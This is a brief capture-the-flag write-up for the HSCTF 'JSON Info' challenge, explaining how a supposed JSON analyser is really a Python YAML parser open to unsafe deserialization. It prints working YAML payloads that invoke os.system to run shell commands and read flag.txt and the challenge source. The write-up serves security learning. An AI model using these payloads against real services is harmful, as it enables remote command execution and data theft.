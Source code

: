 # JSON Info

# Description:
Written by: cppio

> I made a simple program to analyze my JSON files.
>
> nc misc.hsctf.com 9999
>
> Note: You must send an EOF (normally Ctrl-D) to get a response. If netcat quits before showing any response, you may have to use socat.
>
> socat - tcp:misc.hsctf.com:9999
>
> Alternatively, try netcat's -q flag.
>
> nc -q 1 misc.hsctf.com 9999

# Solution:
- Connect to the given ip and port using netcat and try entering some input
![simple test](https://i.imgur.com/iYuAHvS.png)
At first glance it seems to work just fine and parse json correctly
- Try some invalid input and google some of the error messages, eventually you'll discover these are yaml parser errors
![error](https://i.imgur.com/gSVjaX1.png)
- Google `python yaml exploits` or `python yaml injection` and maybe find this [Talos intelligence report](https://www.talosintelligence.com/reports/TALOS-2017-0305)
- Try it out, `!!python/object/apply:os.system ["uname -a; ls"]`
![output](https://i.imgur.com/3ri5nuh.png)
works fine, so just get our flag (and the source code for the challenge) `!!python/object/apply:os.system ["cat flag.txt; cat json_info.py"]`
![output](https://i.imgur.com/RRonyIE.png)

